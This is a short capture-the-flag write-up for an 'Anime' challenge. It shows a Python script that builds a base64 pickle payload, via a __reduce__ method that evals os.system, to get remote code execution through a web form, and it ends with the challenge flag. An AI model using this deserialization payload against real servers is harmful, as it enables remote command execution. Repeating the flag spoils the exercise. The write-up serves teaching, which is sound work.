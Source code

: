 # Anime

In this task, you need to send malicious input to "Request anime form" to trigger insecure deserialization in python pickle lib.
First of all you need to create a payload, which can lead to RCE on server. You can achive this for example with this script:

import pickle
import base64
import os

class RCE:
def **reduce**(self):
cmd = ("os.system('whoami')")
return eval, (cmd,)

if **name** == '**main**':
pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))

After running this script you will be prompt with base64 output, which you need to paste in "Anime name" form field.
Run any command that can be run on linux server and you will get the flag.

> flag{d4ng3r0us_4n1m3}
